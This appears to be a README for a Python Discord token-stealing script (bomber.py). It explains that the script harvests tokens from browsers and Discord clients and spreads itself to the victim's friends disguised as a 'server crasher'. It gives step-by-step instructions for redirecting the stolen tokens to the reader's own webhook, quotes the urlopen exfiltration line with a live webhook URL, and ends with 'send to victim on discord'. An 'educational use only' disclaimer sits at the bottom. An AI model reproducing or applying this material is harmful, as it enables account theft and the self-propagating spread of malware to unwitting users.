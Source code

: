 To run this you need to have python installed on your computer.

To download it go to: https://www.python.org/downloads/ and get the latest stable version.

DO NOT RUN THIS ON YOUR COMPUTER if you want to see what it does i recomend you run it in a vm and not a computer that you have logged your main discord account in previously.

This python script when you run it will token log the person and then send the file (bomber.py) to everyone on there friends list saying its a discord server crasher.

## It token logs from

Chrome

Discord

Discord PTB

Discord Canary

Opera

Brave

Yandex

## instuctions

If you want to change were it sends the token to.

1. create a discord server

2. add a webhook

3. copy webhook url

4. open the bommer.py in IDLE or another python editor 

5. scroll down to the last line before the blank (big gap in code) near the bottom
 were it says 
try:
        urlopen(Request("https://discord.com/api/webhooks/840487083444535366/0WIjgINkadXvuOMXOdwNahKFVROWtq-_ktGhPLLdZSy4b0QZo-2rljJWCabkaC9I-oQJ", data=dumps(webhook).encode(), headers=getheaders()))
6. change the "https://discord.com/api/webhooks/840487083444535366/0WIjgINkadXvuOMXOdwNahKFVROWtq-_ktGhPLLdZSy4b0QZo-2rljJWCabkaC9I-oQJ" to your webhook url

7. save the file

8. send to victim on discord

# **!!Disclaimer this is for educational use only and i am not responsible for your actions or uses of this code!!**
